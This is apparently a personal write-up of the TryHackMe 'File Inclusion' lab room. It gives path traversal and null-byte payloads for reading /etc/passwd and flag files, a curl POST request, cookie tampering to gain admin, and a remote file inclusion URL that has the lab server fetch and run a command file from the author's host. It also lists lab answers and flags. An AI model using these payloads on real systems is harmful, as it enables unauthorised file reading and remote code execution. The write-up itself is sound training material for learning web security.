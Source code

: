 ```yaml
---
layout: single
title: "THM Exploits #1 File Inclusion"
---
```


##### TryHackMe Room: Jr Penetration Tester path: Web Application Hacking: File Inclusion


##### LFI #1

1. Give Lab #1 a try to read /etc/passwd. What would the request URI be?
Answer: `/lab1.php?file=/etc/passwd`

2. In Lab #2, what is the directory specified in the include function?

![img]({{site.url}}/images/2023-08-29-tenth/Screen Shot 2023-08-23 at 4.27.12 PM.png) 

Answer: `includes`
We get an error message after looking up a random nonexistent file 'hi.php' 
`include(includes/hi.php) `tells us that the directory specified in the `include` function is `includes` (what a creative name).

##### LFI #2
**===1. Give Lab #3 a try to read /etc/passwd. What is the request look like?===**![[Screen Shot 2023-08-23 at 4.33.28 PM.png]]
The image above is the result of trying to read /etc/passwd by inputting /etc/passwd in the form. 
However, in the error message, we can see that
1) The default directory for the function is set as `includes`, and 
2)  `.php` is appended to `/etc/passwd`. 

To bypass both of these problems we can implement 2 measures: 
1) Use directory traversal. Because we know that we're currently in `/var/www/html/lab3.php`, we can bypass these by using 4 `../`, like so: `../../../../etc/passwd
2) We should use the nullbyte `%00` so the web server disregards the `.php` that is appended after input. 

The final payload:
`../../../../etc/passwd%00`

The request
`/lab3.php?file=../../../../etc/passwd%00`

Output: 
![[Screen Shot 2023-08-23 at 4.38.12 PM.png]]



===**2. Which function is causing the directory traversal in Lab #4?**===
Answer: `file_get_contents`

Let's input a nonexistant file `yum.php`.
![[Screen Shot 2023-08-23 at 4.39.42 PM.png]]
The error message discloses that the function `file_get_contents` is enabling us to read files through directory traversal.


**===3. Try out Lab #6 and check what is the directory that has to be in the input field?===**

![[Screen Shot 2023-08-29 at 3.14.37 PM.png]]

Answer: THM-profile. If we input a random directory that is not `THM-profile` , we get this error message: 

`Access Denied! Allowed files at THM-profile folder only!`

![[Screen Shot 2023-08-29 at 3.15.33 PM.png]]

So this web page is only allowing users to search for files within the `THM-profile` directory.


**===4. Try out Lab #6 and read /etc/os-release. What is the VERSION_ID value?===**

In this exercise, we have to read a directory that is not `THM-profile`.
Needless to say, searching for only `/etc/os-release` will output an error message, denying us access.


In this case, we can utilize the directory traversal method.
Specifically, appending /../'s to the directory that we have access will allow us to traverse to a different directory.
The input is: `THM-profile/../../../../etc/os-release`

![[Screen Shot 2023-08-29 at 3.17.47 PM.png]]
Note: we know to use 4 /../'s because our current path is `/var/www/html`, and we have to traverse through all of those directories to reach `/etc/os-release`.



### Writeup: Challenge


**==1. Capture Flag1 at /etc/flag1==**

Below is the screen we are presented with.
![[Screen Shot 2023-08-29 at 3.25.31 PM.png]]
It says the input form is broken and trying `/etc/flag1` reaffirms that it indeed doesn't work, not showing any output. 

So we will use the terminal to manually send a 'POST' request. 

`curl -X POST http://10.10.128.41/challenges/chall1.php -d 'method=GET&file=/etc/flag1'

![[Screen Shot 2023-08-29 at 3.34.25 PM.png]]

At the bottom of the output you will find the flag: `F1x3d-iNpu7-f0rrn`

![[Screen Shot 2023-08-29 at 3.33.33 PM.png]]


**==2. Capture Flag2 at /etc/flag2==**

Initial screen: 
![[Screen Shot 2023-08-29 at 3.35.43 PM.png]]

Let's refresh as told.

![[Screen Shot 2023-08-29 at 3.36.15 PM.png]]
This^ is what we get after refreshing. Refreshing logged us in as a Guest, but only admins can access this page. Thus we should try to log ourselves in as an admin to access the file with the flag.

Again, this needs to be done with a tool like Burp Suite. We can use Burp to capture the HTTP traffic and modify the cookie so as to give ourselves admin access.


1. Refresh the page and capture the HTTP traffoc.

![[Screen Shot 2023-08-29 at 3.50.31 PM.png]]

Shown here is the cookie set to `THM=Guest`. Let's try changing that to `THM=admin`. 

...I forgot to screenshot setting the cookie to `THM=admin` but below is the screen after forwarding the modified traffic with Burp (see Forward button on the top left).

![[Screen Shot 2023-08-29 at 3.52.17 PM.png]]
We are now logged in as admin. It's telling us that we are in the admin page but we need to get the flag elsewhere. 

We are looking for `/etc/flag2`. But how?

Trying to access `/etc/flag2` through the address bar doesn't work; it redirects us to the Guest page. So, in order to stay logged in as admin, let's stay with Burp Suite and keep modifying the cookie to stay as admin *and* access files as admin.

![[Screen Shot 2023-08-29 at 3.59.26 PM.png]]


`Cookie: THM=/etc/flag2`

Result: 
![[Screen Shot 2023-08-29 at 4.00.42 PM.png]]

We got an error message: `Warning: include(includes//etc/flag2.php)..`
The `.php` extension is appended. Let’s get rid of this with the null byte.

Like so: 
![[Screen Shot 2023-08-29 at 4.04.10 PM.png]]

Result:
![[Screen Shot 2023-08-29 at 4.05.14 PM.png]]

We managed to get rid of the `.php` but we still can't reach the file. Let's try using directory traversal. Our current path is `/var/www/html`.


Result:
![[Screen Shot 2023-08-29 at 4.06.41 PM.png]]
Got it! 


Note: 
Fails: CLI cookie tampering
![[Screen Shot 2023-08-29 at 3.46.39 PM.png]]


**==3. Capture Flag3 at /etc/flag3==**

Initial screen: 
![[Screen Shot 2023-08-29 at 4.08.23 PM.png]]

Let's try `etc/flag3`.

Result: 
![[Screen Shot 2023-08-29 at 4.08.56 PM.png]]

In the output, the /(slashes) and 3 are gone. The `.php` extension is also appended. 

I tried to get around this filtering by adding double /../'s and null bytes, like `....//....//....//....//etc//flag3%%0000` or `....//....//....//....//etc//flag3%00`. But it didn't work, and the same error message kept showing up. Using the address bar didn't work either.

As an alternative, let's try a POST request like we did in 
This wasn't something I could intuitively think of; I had to do some research.
Because interacting with the web page through the URL (AKA sending HTTP GET requests) isn't working, we are using POST as another way to send in data and see if it makes a difference. 

The following is the POST request sent: 
![[Screen Shot 2023-08-29 at 4.24.51 PM.png]]

Result:
![[Screen Shot 2023-08-29 at 4.24.36 PM.png]]
Here in the output, we see that the filter padding (....//....//) our payload was not modified as it was in the website. So let's send another POST request but without padding (but keeping the directory traversal and null byte).

The final command: 
![[Screen Shot 2023-08-29 at 4.26.47 PM.png]]
![[Screen Shot 2023-08-29 at 4.27.15 PM.png]]

It succeeded and we have the flag now. 


**==4. Gain RCE in Lab # Playground /playground.php with RFI to execute the hostname command. What is the output?==**

This exercise is a Remote File Inclusion exercise, meaning that we need our own file to send to the website. 
Here is the step-by-step:

1. First, create your own https server
![[python http server.png]] 

2. Then create a text file with the command you want to execute. in this case it is hostname.

![[cmdtxt 1.png]]


3. In the lab, include the file parameter containing your ip address (don’t forget to include the port on which the http server is listening) and the text file of the command.

![[file inclusion.png]]


Final input was:
`[http://10.10.222.26/playground.php?file=http://10.17.63.37:8000/cmd.txt]
`
